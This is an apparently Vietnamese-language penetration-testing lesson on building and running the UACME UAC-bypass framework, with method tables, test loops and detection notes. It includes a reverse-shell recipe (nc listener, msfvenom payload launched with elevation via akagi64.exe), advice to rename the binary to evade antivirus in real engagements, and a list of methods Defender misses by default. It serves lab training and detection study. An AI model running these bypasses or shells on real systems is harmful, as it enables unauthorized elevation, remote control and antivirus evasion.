

> **Prerequisites**: [[03-registry-hijack-fodhelper|03]]–[[13-env-var-hijack-windir|13]] — Tất cả core techniques
> **Objectives**:
> - Build UACME từ source (Visual Studio 2019+)
> - Biết cách chọn method phù hợp với target environment
> - Dùng akagi64.exe trong lab để test methods theo hệ thống
> - Hiểu tại sao UACME không cung cấp compiled binary

---

## Mục đích & Kiến trúc

### UACME là gì?

UACME (Defeating Windows User Account Control) là project C của `@hfiref0x` — tập hợp **hơn 70 UAC bypass methods** được implement dưới dạng executable `akagi32.exe` / `akagi64.exe`. Mỗi method được đánh số, implement chuẩn, và document rõ nguồn gốc.

Project này:
- Là reference implementation của tất cả publicly-known UAC bypass techniques
- Chỉ build từ source — không cung cấp compiled binary (barrier against misuse)
- Được test trên Windows 7 → Windows 11 (LTSC/LTSB variants + RTM-1)
- Cập nhật thường xuyên khi bypass mới được phát hiện hoặc fix

### Kiến trúc

```text
UACME/
├── Source/
│   ├── Akagi/          ← Main executable source
│   │   ├── main.c      ← Entry point, method dispatch
│   │   ├── methods/    ← Individual bypass implementations
│   │   │   ├── ucmAkagiMethod*.c
│   │   │   └── ...
│   │   └── shared/     ← Shared utilities
│   └── Shared/
└── Compiled/           ← Empty — bạn phải build
```

---

## Cài đặt & Build

### Yêu cầu

- Visual Studio 2019 hoặc 2022 (Community là đủ)
- Windows SDK (tự động cài với VS)
- Git

### Build từ source

```powershell
# 1. Clone
git clone https://github.com/hfiref0x/UACME.git
cd UACME

# 2. Mở Visual Studio
start Source\UACME.sln

# 3. Trong VS: Build → Configuration Manager → Release | x64
# 4. Build → Build Solution (Ctrl+Shift+B)

# 5. Output location
dir Source\x64\Release\
# akagi64.exe
```

Hoặc build từ command line (cần VS Developer Command Prompt):

```cmd
cd UACME\Source
msbuild UACME.sln /p:Configuration=Release /p:Platform=x64
```

> **Expected output**: `akagi64.exe` tạo trong `Source\x64\Release\`.

### Verify build

```cmd
akagi64.exe /?
```

> **Expected output**: Usage message với syntax và ghi chú về legal use.

---

## Core Workflow

### Syntax

```text
akagi32.exe <MethodID> [OptionalPayload]
akagi64.exe <MethodID> [OptionalPayload]
```

Nếu không có OptionalPayload, UACME mặc định spawn `cmd.exe`.

```cmd
# Chạy method 23 (fodhelper) — spawn cmd.exe
akagi64.exe 23

# Chạy method 23 với custom payload
akagi64.exe 23 c:\windows\system32\calc.exe

# Chạy method 61 (eventvwr) với charmap
akagi64.exe 61 c:\windows\system32\charmap.exe
```

### Methods quan trọng — map với Lessons

| Method ID | Technique | Lesson tương ứng |
|-----------|----------|-----------------|
| 23 | fodhelper.exe registry hijack | [[03-registry-hijack-fodhelper\|03]] |
| 61 | eventvwr.exe registry hijack | [[04-registry-hijack-eventvwr\|04]] |
| 43 | CMSTPLUA COM interface (ICMLuaUtil) | [[10-elevated-com-icmluautil-cmstp\|10]] |
| 41 | ICMLuaUtil ShellExec via CoGetObject | [[10-elevated-com-icmluautil-cmstp\|10]] |
| 30 | WerFault.exe + wow64log.dll DLL hijack | [[08-ifileoperation-dll-hijack\|08]] |
| 33 | SilentCleanup + environment variable | [[12-silentcleanup-task-hijack\|12]] |
| 53 | sdclt.exe IsolatedCommand | [[05-registry-hijack-sdclt-perfmon\|05]] |
| 22 | consent.exe + comctl32.dll (DLL SxS redirect) | Advanced |
| 59 | WSReset.exe registry hijack | Advanced |
| 65 | WOW64 logger + DLL injection | Advanced |

> [!info] Method numbering
> Methods được đánh số theo thứ tự được phát hiện/add vào project. Số không liên tục vì các methods "fixed" bởi Microsoft đã bị remove trong UACME 3.5+.

---

## Key Flags & Options

| Argument | Ý nghĩa |
|---------|---------|
| `<ID>` | Method number (mandatory) |
| `[payload]` | Optional — path đến binary sẽ được execute. Default: `cmd.exe` |
| 32-bit vs 64-bit | Dùng `akagi32.exe` cho 32-bit target process, `akagi64.exe` cho 64-bit |

---

## Common Patterns trong Lab

### Pattern 1 — Test nhiều methods liên tiếp

```powershell
# Script test tất cả methods và log kết quả
$methods = @(23, 33, 41, 43, 53, 59, 61, 65)
$results = @{}

foreach ($m in $methods) {
    Write-Output "[*] Testing method $m..."
    $proc = Start-Process "akagi64.exe" -ArgumentList "$m cmd.exe /c echo METHOD_$m_SUCCESS > C:\Users\Public\result_$m.txt" `
        -PassThru -WindowStyle Hidden
    Start-Sleep -Seconds 4

    if (Test-Path "C:\Users\Public\result_$m.txt") {
        $results[$m] = "SUCCESS"
        Remove-Item "C:\Users\Public\result_$m.txt" -Force
    } else {
        $results[$m] = "FAILED"
    }
    $proc | Stop-Process -ErrorAction SilentlyContinue
}

$results.GetEnumerator() | Sort-Object Name | ForEach-Object {
    Write-Output "Method $($_.Key): $($_.Value)"
}
```

### Pattern 2 — Dùng với reverse shell

```cmd
rem 1. Setup listener trên Kali: nc -lvnp 4444
rem 2. Tạo reverse shell exe: msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=4444 -f exe -o shell.exe
rem 3. Upload shell.exe lên target C:\Users\Public\shell.exe
rem 4. Run UACME với shell.exe
akagi64.exe 23 C:\Users\Public\shell.exe
```

### Pattern 3 — So sánh detection per method

```powershell
# Dùng Sysmon Event Viewer để compare IOC của mỗi method
# Filter: Source = Microsoft-Windows-Sysmon/Operational
# EventID = 1 (Process Create), 7 (DLL Load), 13 (Registry)
Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" `
    -FilterXPath "*[System[EventID=13]]" |
    Where-Object { $_.TimeCreated -gt (Get-Date).AddMinutes(-5) } |
    Select-Object TimeCreated, Message |
    Format-List
```

---

## Command Cheatsheet

**Build (VS Developer Command Prompt)**

```cmd
cd UACME\Source
msbuild UACME.sln /p:Configuration=Release /p:Platform=x64
dir x64\Release\akagi64.exe
```

**Run methods**

```cmd
rem Default payload (cmd.exe)
akagi64.exe 23

rem Custom payload
akagi64.exe 23 C:\Users\Public\shell.exe

rem Method 43 (ICMLuaUtil)
akagi64.exe 43 C:\Windows\System32\calc.exe
```

**Verify elevated**

```cmd
whoami /groups | findstr "High Mandatory"
whoami /priv | findstr "SeDebugPrivilege"
```

**Cleanup sau mỗi test**

```powershell
# UACME tự cleanup, nhưng verify:
# Registry: kiểm tra HKCU\Software\Classes không còn entry
Get-ChildItem "HKCU:\Software\Classes" | Where-Object { $_.Name -match "ms-settings|mscfile|Folder" }

# Process: không còn akagi process
Get-Process akagi* -ErrorAction SilentlyContinue
```

---

## Daily Drill

**Thời gian**: 20 phút/ngày trong 7 ngày.

**Drill 1 — Build từ source**
Mục tiêu: build thành công không cần hướng dẫn.

```cmd
git clone https://github.com/hfiref0x/UACME && cd UACME\Source
msbuild UACME.sln /p:Configuration=Release /p:Platform=x64
```

Luyện cho đến khi: build thành công trong lần đầu, biết troubleshoot common errors (SDK missing, etc.).

**Drill 2 — Method mapping**
Mục tiêu: nhớ method ID của các technique đã học.

| Method | Technique |
|--------|----------|
| 23 | fodhelper |
| 61 | eventvwr |
| 43 | ICMLuaUtil / CMSTP |
| 53 | sdclt |
| 33 | SilentCleanup env var |

Luyện cho đến khi: nhìn method ID → biết technique, nhìn technique → biết method ID.

**Drill 3 — Test loop**
Mục tiêu: test 5 methods và log kết quả trong 5 phút.

```cmd
for %m in (23 43 53 61 33) do (
    akagi64.exe %m cmd.exe /c "echo %m >> C:\Users\Public\results.txt"
    timeout /t 3 /nobreak > nul
)
type C:\Users\Public\results.txt
```

Luyện cho đến khi: chạy test loop không cần nhìn notes.

---

## Integration với Other Tools



---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **UACME binary**: `akagi32.exe` / `akagi64.exe` — AV thường flag là HackTool
> - Trong real engagement: rename binary, hoặc implement technique thủ công (không dùng akagi)
>
> **Techniques cụ thể**: Mỗi method tạo IOC riêng — xem lessons tương ứng
>
> **Windows Defender detect UACME methods**:
> - Methods 33, 34, 56, 59, 62, 67: Alert "UAC bypass was detected"
> - Method 53: Alert "Behavior:Win32/UACBypassExp.F!sdclt"
> - Methods 41, 43, 65: Không detect mặc định — cần custom rule
>
> **Antivirus**: Nhiều AV flag akagi64.exe là "HackTool:Win32/UACME" hoặc tương tự
> - Expected behavior — không phải false positive

> [!note] Mitigation
> - UACME chỉ dùng trong lab / authorized testing
> - Mỗi method có detection riêng — xem Field Manual và lessons tương ứng
> - Tăng UAC Always Notify + Monitor token attributes là defense tốt nhất

---

## Lab Thực hành

| Platform | Machine | Tại sao phù hợp |
|----------|---------|----------------|
| Local VM | Windows 10/11 | Build và test tất cả methods có hệ thống |
| Local VM | Windows 10 + Sysmon | Map từng method → IOC — build detection knowledge |
| Local VM | Windows 11 patched | Xem methods nào bị fix |
| HTB | Bất kỳ Windows box | Dùng technique thủ công (không dùng akagi trực tiếp) |

---

## Field Manual Entry

> [!abstract] UACME — UAC Bypass Framework
> **Build**: `git clone https://github.com/hfiref0x/UACME && msbuild UACME.sln /p:Configuration=Release /p:Platform=x64`
> **Syntax**: `akagi64.exe <MethodID> [payload.exe]`
> **Key methods**: 23=fodhelper, 61=eventvwr, 43=ICMLuaUtil, 53=sdclt, 33=SilentCleanup
> **Note**: AV sẽ flag akagi — dùng trong lab hoặc implement technique thủ công trong real engagement
> **Defender detected**: 33, 34, 56, 59, 62, 67 (alert raised); 41, 43, 65 (không detect default)
> **Ref**: [[14-uacme-framework|14. UACME — UAC Bypass Framework]]
